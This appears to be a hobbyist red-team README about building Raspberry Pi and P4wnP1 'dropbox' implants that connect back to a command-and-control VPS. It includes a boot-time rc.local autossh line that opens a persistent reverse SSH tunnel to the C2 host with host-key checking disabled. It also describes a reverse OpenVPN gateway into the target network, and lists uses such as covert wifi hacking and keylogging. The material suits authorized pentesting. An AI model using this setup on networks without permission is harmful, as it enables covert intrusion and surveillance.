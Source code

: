 # dropbox
I have 2 raspberry pi's that I use for red teaming. One of them is p4wnp1 which is an HID hacking tool that is running Kali Linux on a raspberry pi zero.
I also have a raspberry pi 4 that I use as a dropbox. I will describe how I got this to work and how I set everything up.

## command and control server
To get this whole thing to work I need a command and control server.
This server can be used by the dropbox to connect to it.
This server must be always reachable otherwise the dropbox can't be connected to so will be useless.
This server can be a digital ocean server because I have a server at home I could also use that but for security reasons, I will use a digital ocean VPS.
I have created a droplet with the least resources because there isn't much required from this server.
![Digital Ocean](images/digitalocean.png)

One of the key components of a dropbox is to get a connection remotely after dropping it somewhere.
This can be accomplished by a reverse ssh connection or a reverse VPN connection.
For this to work 

## Raspberry pi 4
I already have Kali Linux for arm installed on my raspberry pi 4 but this is not enough for using it as a dropbox.
To set this up you want it to be able to be dropped somewhere easy and fast and connect to it remotely after dropping it.

To get the dropbox to work I needed that kali to automatically login because if we don't do that the pi won't connect to the internet.
I have created keys and copied them to all the needed devices to have a secure connection with key authentication.

### Autossh
auto ssh needs to be installed this makes a connection with an ssh server and keeps monitoring it for reconnection.
I use keys for authentication these keys I copied before.
To make autossh work it needs to be running at bootup.
I used rc-local to run it on bootup by using this code in /etc/systemd/system/rc-local.service

```
[Unit]
 Description=/etc/rc.local Compatibility
 ConditionPathExists=/etc/rc.local
[Service]
 Type=forking
 ExecStart=/etc/rc.local start
 TimeoutSec=0
 StandardOutput=tty
 RemainAfterExit=yes
 SysVStartPriority=99
[Install]
 WantedBy=multi-user.target
```

I also added the next code to /etc/rc.local
```
#!/bin/bash -e
autossh -M $mp -fN -o "PubkeyAuthentication=yes" -o "StrictHostKeyChecking=false" -o "PasswordAuthentication=no" -o "ServerAliveInterval 60" -o "ServerAliveCountMax 3" -R $FUID:localhost:22 -i /root/.ssh/id_rsa $cncuser@$cncip &
exit 0
```

After setting up all of this I can ssh into the pi 4 without being connected to the same network through the command and control server.

## Improvements
I have attached a wireless USB adapter to have more range and wifi hacking possibilities.
I also handmade a small ethernet cable to make it more convenient when dropping it and making it less bulky.
There is an external battery to make it possible to drop in places where you can't use a wall socket.
After some time with tinkering around with the autossh, I thought it would be better to use a [reverse vpn](#reverse-VPN-gateway) that way I have full access over the machine not only ssh.
This I will do in combination with the auto ssh to always have a backup if anything goes wrong with one of them.
![pi4 dropbox](images/dropboxpi4.jpg)

## P4wnp1
The p4wnp1 is running a full set of Kali Linux it also has access to HID attacks.
Because of this, it is really interesting to make this toolkit remotely accessible.
This way you have a small machine with all the potential without having to stay at a certain location
You don't have many resources but that is not always needed.
The only downside is that without any adapters you only have wifi to access the internet.
So you need to have the wifi password to use p4wnp1 as a dropbox.

### Reverse VPN gateway
Because we want full access to the p4wnp1 we can use a VPN server.
But not only can we make our VPN server let us access our p4wnp1.
We can also make it a reverse VPN Gateway and by doing that we can access the whole network the p4wnp1 is connected to.
This reverse VPN gateway is also handy to use with my raspberry pi 4.

I can do this by using the same command and control server.
I will install OpenVPN on the server and after that configure the p4wnp1 to work as a reverse VPN gateway.

When OpenVPN is installed you can open the admin page most of the things are already set up correctly.
You have to add a user for your pentesting machine mine is called Merlijn and one for your dropbox mine is called dropbox.
These two should have auto login permissions especially the dropbox.
![openvpn users](images/users.png)

When both of the users are added you should go into more settings of dropbox and enable VPN gateway.
Here you have to specify what network the gateway should work on I have set the most used network 192.168.1.1/24
this can later be changed or extended depending on your target.
![openvpn gateway](images/gateway.png)

After setting this all up I can just connect to the OpenVPN server with my kali machine.
When connected to the OpenVPN server I can now access the network my dropbox is connected to.

# Usages
these dropboxes can be used for multiple things.
- remotely have access to a pentest location.
- remotely doing some wifi hacking without being noticed for being a long time in a place.
- Getting access to a secured environment without staying there for too long.
- in the case of p4wnp1 remotely executing HID attacks or keylogging.